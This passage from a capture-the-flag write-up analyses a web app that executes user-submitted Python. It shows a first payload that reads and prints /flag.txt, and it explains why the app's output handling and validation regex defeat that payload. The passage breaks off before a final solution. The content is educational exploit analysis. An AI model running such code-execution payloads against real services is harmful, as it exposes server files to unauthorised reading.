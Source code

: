 Fantastic, we just have to submit some valid Python code that reads and prints the flag from the `/flag.txt` on the server.

## Designing the Payload

The printed flag will be captured by the call to `subprocess.run` and returned in the `output` variable, which will be returned to `res`. In turn, `res` will be passed into the `rgb` variable of the HTML template. Based on this, here's our payload:

```python
# Our first payload
from pathlib import Path
flag = Path("/flag.txt").read_text()
print(flag) ### <-- captured and bound to the `output` variable thanks to `subprocess.run(..., capture_output=True)`
```

Except, there's a problem:

```python
def xec(code):
    ...
    with open(file, 'w') as f:
        f.write("def main():\n")
        f.write(indented)
        f.write("""\nfrom parse import rgb_parse
print(rgb_parse(main()))""") ### <-- This will ALSO be captured and bound to `output`

   try:
        res = subprocess.run(["sudo", "-u", "user", "python3", file], capture_output=True, text=True, check=True, timeout=0.1)
        output = res.stdout
    ...

    return output
```

This causes a problem for us because of the validation code from earlier; assuming our payload passes the validation step, the app only injects the last line of `output` (which is bound to `res`) into the template!

```python
def index():
    ...
    res = xec(code)
    ...
    if valid.match("".join(res.strip().split("\n")[-1])): ### <-- Our payload must pass this validation to be injected into the template...
            return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1])) ### <-- And this ensures only the last line of `res` is included in the template
    ...
```

This means if we use the above payload, we'll only end up injecting the output of `rgb_parse(main())` (which is just some tuple of red-green-blue values).
